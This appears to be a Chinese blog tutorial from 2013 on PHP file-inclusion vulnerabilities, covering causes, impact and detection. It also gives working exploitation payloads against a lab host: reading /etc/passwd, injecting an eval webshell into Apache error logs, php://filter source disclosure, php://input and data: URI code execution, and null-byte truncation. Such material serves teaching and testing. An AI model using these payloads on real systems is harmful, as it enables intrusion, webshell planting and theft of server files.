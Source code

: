 ```yaml
---
layout: post
title: "文件包含科普"
date: 2013-11-08 22:59:35 +0800
comments: true
categories: 
---
```

<h4>1.形成原因</h4>
使用动态文件包含且变量没有过滤

<h4>2.造成影响</h4>
2.1暴露重要文件
2.2获取网站权限

<h4>3.漏洞挖掘</h4>
3.1 黑盒测试用WVS等扫描器扫描 
3.2 白盒测试在代码中寻找include()、include_once()、require()、require_once()这几个函数以及和这几个函数相关的变量

<h4>4.利用技巧(测试环境 apache2.2 php5.3)</h4>
4.1 查看重要文件../etc/passwd实例见 
http://www.wooyun.org/bugs/wooyun-2013-028410 
4.2 Apache错误日志写入一句话首先找到错误日志的位置
VulDrill/../logs/apache_error.log然后构造错误访问http://192.168.199.170/VulDrill/fi.php?f=<?php @eval($_POST[‘zero’]);?> 最后在VulDrill/../logs/apache_error.log链接webshell即可

4.3 利用 php://filter
读取php文件
http://192.168.199.170/VulDrill/fi.php?f=php://filter/read=convert.base64-encode/resource=database.php 
![图片](http://x2knowblog.qiniudn.com/aa.jpg)得到base64编码后一段内容，base64解码即可
![图片](http://x2knowblog.qiniudn.com/aaa.jpg)

4.4 利用 php://input 执行代码
php://input是一个只读信息流，当请求方式是post的，并且enctype不等于”multipart/form-data”时，可以使用php://input来获取原始请求的数据。 ![](http://x2knowblog.qiniudn.com/blogQQ%E6%88%AA%E5%9B%BE20140212203325.jpg)

4.5 利用data:URI schema执行代码
http://192.168.199.170/VulDrill/fi.php?f=data:text/plain,<?php%20system('cd')?> 
http://192.168.199.170/VulDrill/fi.php?f=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjZCcpPz4=
4.6 当代码是后面这种形式时：<?php include($a.“.php”); ?> 需要用到截断技术
4.6.1 %00截断，这种有gpc=off和php版本限制
4.6.2 .或者./或者\或者/截断（多次重复) 
乌云实例 http://www.wooyun.org/bugs/wooyun-2010-08824

4.7其他利用方法
远程文件包含 http://developer.51cto.com/art/201104/255224.htm 
Linux包含/proc/self/environ环境变量 http://www.myhack58.com/Article/html/3/62/2011/32008.htm

**参考**
http://zone.wooyun.org/content/2196 
http://danqingdani.blog.163.com/blog/static/1860941952013993810261/ 
http://www.php.net/manual/zh/wrappers.php.php